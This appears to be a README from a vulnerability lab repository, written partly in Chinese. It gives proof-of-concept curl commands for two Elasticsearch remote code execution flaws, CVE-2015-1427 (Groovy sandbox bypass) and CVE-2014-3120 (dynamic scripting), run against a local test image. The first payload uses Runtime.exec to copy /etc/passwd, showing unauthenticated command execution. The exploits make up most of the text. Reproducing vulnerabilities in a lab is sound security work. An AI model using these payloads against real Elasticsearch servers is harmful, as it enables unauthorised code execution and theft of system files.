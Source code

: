 ### CVE-2015-1427 - ElasticSearch Search Groovy Sandbox Bypass

测试镜像

* src/elasticsearch/1.1.1

参考链接

* [Exploit for CVE-2015-1427, ElasticSearch Unauthenticated Remote Code Execution](https://github.com/XiphosResearch/exploits/tree/master/ElasticSearch)

Poc

```
# 创建一点数据
curl 127.0.0.1:9200/what/ever -d '{"some": "data"}'; echo

# 执行代码
curl 127.0.0.1:9200/_search --data '{
  "size": 1,
  "script_fields": {
    "lupin": {
      "lang": "groovy",
      "script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"cp /etc/passwd /tmp\").getText()"
    }
  }
}'; echo
```

### CVE-2014-3120 - ElasticSearch Dynamic Script Arbitrary Java Execution

Poc

```
curl 127.0.0.1:9200/_search --data '{
  "size": 1,
  "query": {
    "filtered": {
      "query": {
        "match_all": {}
      }
    }
  },
  "script_fields": {
    "something": {
      "script": "new StringBuilder(\"HelloWorld\").reverse().toString()"
    }
  }
}'
```




